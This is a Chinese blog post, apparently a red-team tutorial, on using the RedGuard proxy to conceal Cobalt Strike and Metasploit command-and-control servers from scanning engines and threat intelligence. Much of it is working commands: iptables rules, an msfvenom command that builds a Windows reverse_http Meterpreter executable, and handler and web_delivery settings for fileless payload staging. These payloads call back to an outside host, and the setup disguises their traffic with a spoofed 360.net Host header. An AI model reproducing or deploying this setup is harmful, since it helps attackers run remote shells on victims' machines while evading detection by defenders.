 ```yaml
---
title: c2隐藏-RedGuard
date: 2023-02-02 16:30:32
categories: 渗透测试
tags: 工具分享
---
```


### 简介

前几天发现自己的服务器被fofa和微步情报标记为了cobaltstrike服务器，由于以前使用的版本没有对相应的特征做修改，导致被空间搜索引擎标记，刚好看到风起在朋友圈发布了RedGuard，于是赶紧试试鲜。

RedGuard由风起大佬编写的一款c2前置流量控制工具，可以帮助红队更好的隐藏c2基础设施，且目前还在更新和完善之中，在写这篇文章之后又进行了2次更新，优化和增加了一些新功能。

<!--more-->

[github地址](https://github.com/wikiZ/RedGuard/blob/main/doc/README_CN.md)

### 使用

第一次运行会在用户目录生成**.RedGuard_CobaltStrike.ini**文件，编辑此文件对其进行配置，当然也支持参数进行热配置。

![](https://cdn.laohuan.art/Snipaste_2022-05-31_22-17-54.png)

重点关注proxy的3个配置

* Port_HTTPS
* port_HTTP
* HostTarget

如上图，当前配置的意思是将Port_http的80端口绑定到本机127.0.0.1的8080端口，当有请求访问服务器的80端口，RedGuard会对请求特征做判断，当请求不符合规则(及host头不是360.net，这个可以随意设置)，请求会被重定向到https://360.net,否则请求会被转发到cs的监听端口8080端口。请求会不会被重定向取决于DROP参数，如DORP参数设置为true将直接丢弃请求包。

同理,443端口被绑定到本机127.0.0.1的8443端口，当请求不符合规则时将请求重定向到https://360.net,当host头为360.com时将请求转发到cs的8443监听端口，主要取决于你cs的监听器是http还是https。

更多设置，如过滤上线ip、上线时间、上线省份请参考作者官方文档[RedGuard文档](https://github.com/wikiZ/RedGuard/blob/main/doc/README_CN.md)

当然，这种场景适合将反代和cs服务器建在同一台机器上，比较节省资源，配合iptables可防止网络空间搜索引擎将你的服务器标记。

### CS

启动RedGuard `sudo ./RedGuard_64`

cs新建监听，c2端口设置为RedGaurd的反代端口，bind设置为cs的监听端口，注意host header可以随意设置，但一定要和配置文件里的一致。

![](https://cdn.laohuan.art/Snipaste_2022-05-31_22-42-34.png)

再配置IPtables，只允许127.0.0.1访问本机的8443端口

```bash
iptables -I INPUT -p tcp --dport 8443 -j DROP #丢弃所有访问8443端口的包
iptables -I INPUT -p tcp -s 127.0.0.1 --dport 8443 -j ACCEPT #只允许127.0.0.1访问本机的8443端口
```

这样就可以正常上线了

还有一种就是拿一台单独的服务器做反代服务器，另一台服务器做真正的cs服务器，只需简单修改配置文件即可

![](https://cdn.laohuan.art/Snipaste_2022-05-31_22-51-28.png)

这里将192.168.1.8用作反代服务器，192.168.1.7作为真正的cs服务器，HosTtarget填写cs服务器的地址192.168.1.7

新建cs监听，填写相应端口。

![](https://cdn.laohuan.art/Snipaste_2022-05-31_22-56-17.png)

在cs服务器配置防火墙，只允许反向代理服务器来访问cs的监听端口

```bash
iptables -I INPUT -p tcp --dport 8443 -j DROP 
iptables -I INPUT -p tcp -s 192.168.1.8 --dport 8443 -j ACCEPT 
```

### MSF

生成载荷

`msfvenom -p windows/x64/meterpreter/reverse_http  LHOST=10.197.10.131 LPORT=80  HttpHostHeader=360.net -f exe -o test.exe`

建立监听和设置参数，这里反代端口为80端口，80端口收到请求且符合规则后将其转发到本地的8080端口

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_http
set LHOST 127.0.0.1
set LPORT 8080
 
set OverrideLHOST 10.197.10.131 
set overrideLPORT 80
set overriderequesthost true
set httphostheader 360.net 

run

```

配置防火墙

```bash
iptables -I INPUT -p tcp --dport 8080 -j DROP 
iptables -I INPUT -p tcp -s 127.0.0.1 --dport 8080 -j ACCEPT 
```



![](https://cdn.laohuan.art/Snipaste_2022-06-01_17-20-16.png)

在能执行命令的情况下，想方便点使用无文件落地的方式

```bash
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_http
set lhost 192.168.1.8
set lport 80 #端口设置为反向代理端口
set srvport 8082 #用于下载stage
set httphostheader 360.net
set OverrideLhOST 192.168.1.8
set overrideLpoRT 80
set overriderequesthost true
set DisablePayloadHandler true #关闭监听
run

use exploit/multi/handler 
set payload windows/x64/meterpreter/reverse_http
set lhost 127.0.0.1
set lport 8080
set httphostheader 360.net
set OverrideLhOST 192.168.1.8
set overrideLpoRT 80
set overriderequesthost true
run

```

同样配置防火墙

```bash
iptables -I INPUT -p tcp --dport 8080 -j DROP 
iptables -I INPUT -p tcp -s 127.0.0.1 --dport 8080 -j ACCEPT 
```



![](https://cdn.laohuan.art/Snipaste_2022-06-05_15-47-01.png)

